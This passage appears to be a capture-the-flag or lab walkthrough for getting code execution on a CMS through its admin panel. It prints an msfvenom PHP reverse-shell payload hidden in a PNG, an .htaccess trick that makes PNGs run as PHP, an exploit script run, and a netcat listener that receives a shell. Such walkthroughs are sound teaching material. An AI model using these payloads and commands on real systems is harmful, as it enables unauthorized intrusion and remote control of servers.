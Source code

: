 ## Getting Code Execution

Since we have authenticated access to the admin panel we can revisit the "Directory Traversal" exploit that we previously found. We skipped it at the time as we had no creds, but now we have creds! Following the instructions in the exploit, we need to:

1. Create a PNG with a PHP payload in it
2. Change hardcoded values in the script to our host and port
3. Run the exploit
4. Start a listener
5. Visit the target web app and open the png with the payload

Luckily, the exploit has some pretty good documentation to do all of these steps. Started by making an exploit using `msfvenom` and specifying the `raw` file type and saving it to `evil.png`.

```none
└─$ msfvenom -p php/reverse_php LHOST=10.10.14.7 LPORT=9001 -f raw -b '"' > evil.png
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 4046 (iteration=0)
php/base64 chosen with final size 4046
Payload size: 4046 bytes
```

The next step is kind of weird. After decoding the command, we are wrapping the `evil.png` file contents in PHP tags.

```none
echo -e "<?php $(cat evil.png)" > evil.png
```

The next step is to make an `.htaccess` file to turn off the `RewriteEngine` and modify the application type for PNG files.

```none
echo "RewriteEngine off" > .htaccess
echo "AddType application/x-httpd-php .png" >> .htaccess
```

After making these files, we can simply run the script.

```none
python3 48701.py
```

Based on the script documentation, we need to visit the uploaded image which will trigger the payload and connect back to our machine.

```none
http://10.10.10.191/bl-content/tmp/temp/evil.png
```

And we get the callback.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.191] 35094
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
